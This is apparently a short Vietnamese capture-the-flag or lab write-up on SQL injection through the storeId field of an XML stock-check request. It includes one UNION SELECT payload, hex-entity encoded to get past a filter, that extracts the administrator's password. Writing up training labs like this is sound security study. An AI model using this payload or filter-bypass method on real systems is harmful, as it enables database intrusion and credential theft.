



# Lab: SQL injection with filter bypass via XML encoding

## 1. Phát hiện điểm nghi ngờ

Sau khi thử một lượt các tính năng, thấy endpoint `POST /product/stock` khả nghi:



Quan sát: khi payload `storeId` là `1` thì response khác so với `1+1`.

Kết luận: có dấu hiệu đầu vào `storeId` đang được xử lý không an toàn.

## 2. Bypass filter bằng XML encoding



Payload truy vấn lấy password của `administrator`:

```xml
<storeId><@hex_entities>1 UNION SELECT password from users where username='administrator'</@hex_entities></storeId>
```

## 3. Kết quả


